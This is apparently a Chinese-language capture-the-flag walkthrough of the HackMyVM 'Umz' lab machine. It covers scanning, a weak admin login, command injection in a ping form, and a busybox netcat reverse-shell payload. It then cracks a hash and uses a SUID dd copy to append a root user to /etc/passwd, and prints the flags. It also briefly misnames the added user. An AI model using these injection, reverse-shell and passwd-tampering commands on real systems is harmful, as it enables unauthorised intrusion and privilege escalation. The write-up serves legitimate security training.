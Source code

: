 靶机地址：https://hackmyvm.eu/machines/machine.php?vm=Umz

![image-20250804203716777](http://7r1UMPHK.github.io/image/20250804203743076.webp)

# **一、信息收集**

## 1. 主机发现

首先，在本地网络中使用 `arp-scan` 工具扫描存活主机，确定目标靶机的 IP 地址为 `192.168.205.243`。

```bash
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
...
192.168.205.243 08:00:27:9a:39:0d       PCS Systemtechnik GmbH
...
```

## 2. 端口与服务扫描

使用 `nmap` 对目标主机进行全端口扫描，发现其初始开放了 22 (SSH) 和 80 (HTTP) 两个端口。

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.205.243
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-04 08:37 EDT
Nmap scan report for 192.168.205.243
Host is up (0.000099s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## 3. Web 服务探索

访问 80 端口是一个静态网页。

![image-20250804203832718](http://7r1UMPHK.github.io/image/20250804203833086.webp)

这贴脸开大，嘲讽我们ddos不行的，就满足他

```
gobuster dir -k -t 200000 -u http://192.168.205.243 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,txt,html,zip
```

扫描一波就挂了。

重新进行端口扫描发现，服务端口已从 80 切换到了 8080。

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.205.243
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-04 08:40 EDT
Nmap scan report for 192.168.205.243
Host is up (0.000089s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

访问 `http://192.168.205.243:8080`，发现一个登录页面。

# **二、初始访问**

## 1. 漏洞利用

尝试使用弱口令 `admin:admin` 成功登录后台。后台提供一个 `ping` 功能，测试发现存在命令注入漏洞。通过使用分号 `;` 可以拼接并执行任意系统命令。

```text
Payload: ; id
```

## 2. 获取 Shell

利用该命令注入漏洞，执行反向 Shell 命令，成功在本地 Kali 监听的端口上接收到 Shell。

*   **攻击机（Kali）监听:**
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ nc -lvnp 8888
    listening on [any] 8888 ...
    ```

*   **Web 页面注入 Payload:**
    ```text
    ;busybox nc 192.168.205.128 8888 -e /bin/bash
    ```

成功获取 `welcome` 用户的 Shell。为方便后续操作，使用 `stty` 将其升级为功能完整的交互式 TTY。

```bash
# 稳定 Shell
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 34 columns 120
```

进入 `welcome` 用户家目录，读取第一个 flag。

```bash
welcome@Umz:~$ cat /home/welcome/user.txt
flag{user-4483f72525b3c316704cf126bec02d5c}
```

# **三、权限提升**

## 1. 横向移动: welcome -> umzyyds

首先，检查当前用户的 `sudo` 权限，发现 `welcome` 用户可以免密执行 `/usr/bin/md5sum`。

```bash
welcome@Umz:~$ sudo -l
User welcome may run the following commands on Umz:
    (ALL) NOPASSWD: /usr/bin/md5sum
```

在系统中进行枚举，于 `/opt/flask-debug/` 目录下发现一个名为 `umz.pass` 的敏感文件。使用 `sudo` 权限读取其 MD5 哈希值。

```bash
welcome@Umz:/opt/flask-debug$ sudo /usr/bin/md5sum umz.pass
a963fadd7fd379f9bc294ad0ba44f659  umz.pass
```

尝试使用 `john` 爆破该哈希值未果。考虑到 Linux 文件常以换行符 `\n` 结尾，这可能会影响哈希计算。使用 `perl` 脚本结合 `rockyou.txt` 字典，在计算哈希时包含换行符，成功破解出密码。

```bash
┌──(kali㉿kali)-[~]
└─$ perl -MDigest::MD5=md5_hex -nE 'print $_ if md5_hex($_) eq "a963fadd7fd379f9bc294ad0ba44f659"' /usr/share/wordlists/rockyou.txt
sunshine3
```

密码为 `sunshine3`。通过 `ls /home` 发现存在另一个用户 `umzyyds`。使用破解出的密码成功切换到 `umzyyds` 用户。

```bash
welcome@Umz:~$ su umzyyds
Password: sunshine3
umzyyds@Umz:/home/welcome$
```

## 2. 垂直提升: umzyyds -> root

切换到 `umzyyds` 用户后，在其家目录中发现一个拥有 `SUID` 权限的可执行文件 `Dashazi`。

```bash
umzyyds@Umz:~$ ls -al
...
-rwsr-sr-x 1 root    root    76712 May  3 10:42 Dashazi
...
```

使用 `strings` 命令分析该文件，发现其包含了大量与 `dd` 命令相关的字符串，可以断定 `Dashazi` 就是 `dd` 命令的副本。

由于该文件具有 SUID root 权限，任何用户执行它时都将获得 root 身份。我们可以利用它以 root 权限写入系统关键文件，如 `/etc/passwd`，从而创建一个新的 root 用户。

**提权步骤:**

1.  构造一个新的用户条目，用户名为 `b`，密码为`abcdefg`，UID 和 GID 均为 `0` (root 权限)。
2.  使用 `echo` 和管道，将该条目作为 `Dashazi` (dd) 的输入。
3.  指定输出文件 (`of`) 为 `/etc/passwd`，并使用 `oflag=append` 和 `conv=notrunc` 选项以追加模式写入，避免覆盖原文件。

```bash
umzyyds@Umz:~$ echo 'b:$1$AydoDDh4$tEky6m30.0nY3HZ8FgoGI0:0:0::/root:/bin/bash' | ./Dashazi of=/etc/passwd conv=notrunc oflag=append
0+1 records in
0+1 records out
37 bytes copied, 0.000106 s, 349 kB/s
```

# **四、夺取旗帜**

成功向 `/etc/passwd` 文件中添加了新的 root 用户 `hacker` 后，直接切换到该用户，即可获得 root 权限。

```bash
umzyyds@Umz:~$ su b
Password:
root@Umz:/home/umzyyds# id
uid=0(root) gid=0(root) groups=0(root)
```

最后，读取 `root.txt` 获取最终的 flag，完成渗透。

```bash
root@Umz:/home/umzyyds# cat /root/root.txt /home/welcome/user.txt 
flag{root-a73c45107081c08dd4560206b8ef8205}
flag{user-4483f72525b3c316704cf126bec02d5c}
```